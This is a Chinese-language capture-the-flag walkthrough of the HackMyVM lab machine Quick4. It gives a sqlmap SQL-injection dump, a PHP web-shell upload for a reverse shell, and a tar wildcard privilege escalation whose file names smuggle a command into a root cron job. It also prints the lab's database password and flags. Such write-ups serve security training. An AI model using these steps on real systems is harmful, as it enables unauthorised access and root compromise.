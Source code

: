 # Quick4

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Quick4

[video]()

## Ip

192.168.5.39

## Scan

```

```

登陆 http://192.168.5.39/customer/ 登陆不存在注入，注册个用户进去后也没利用点。

另外一个登陆点存在注入 http://192.168.5.39/employee/ sqlmap 直接跑出：

```
`quick`
sqlmap -r req.txt --flush-session --batch -D '`quick`' -T users --dump
```

得到 admin 用户的邮箱和密码，登陆 employee，可以修改头像，使用 BP 抓包，上传一个 php web shell，然后访问拿到反弹的 webshell。

先拿到数据库连接信息：

```
$conn = new mysqli('localhost', 'root', 'fastandquicktobefaster', 'quick');
```

直接在/home 下拿到 flag:

```
HMV{7920c4596aad1b9826721f4cf7ca3bf0}
```

crontab 发现每分钟执行脚本 /usr/local/bin/backup.sh

```
#!/bin/bash
cd /var/www/html/
tar czf /var/backups/backup-website.tar.gz *
```

这里可以利用 tar 提权：

```
cd /var/www/html/
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1

/bin/bash -p
```

拿到 root flag：

```
HMV{858d77929683357d07237ef3e3604597}
```
